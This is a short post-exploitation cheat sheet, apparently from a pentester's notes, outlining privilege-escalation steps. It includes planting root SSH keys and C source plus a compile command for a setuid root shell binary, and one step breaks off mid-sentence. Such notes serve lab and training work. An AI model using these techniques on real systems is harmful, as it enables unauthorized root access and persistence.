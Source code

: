 # Guide

1. Secure foothold within the machine, see [[Securing Access]]
2. List all applications and current operating system on the systems and check for known vulnerabilities.
3. Search for important files which may grant more access, see [[Valuable Files]] and then [[3. Exploitation/File Types and Data/1. Guide|Guide]]
4. Search for important information within running or interesting applications, especially the application used to gain access, e.g. vulnerable database and its configuration files Privilege Escalation
5. Search and document all users, see Linux [[Known Users]]
6. Leave any found passwords cracking while 
7. See [[4. Post Exploitation/Privilege Escalation/Windows/1. Guide|Windows]] or [[4. Post Exploitation/Privilege Escalation/Linux/1. Guide|Linux]] Guide

## Getting Root Access


## Using Root Access

How to use the root access to gain access

### SSH Keys

Create SSH keys for the Root account then just connect.
Input ssh key into .ssh, `.ssh/authorized_keys`

### File Creation to Open a Shell

Create a file using the root privilege, or enable its privileges:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
	setreuid(0, 0);
	execve("/bin/sh", NULL, NULL); 
}
```

Compile the file:

```
gcc -o shell /opt/shells/setuid/exec.c
```
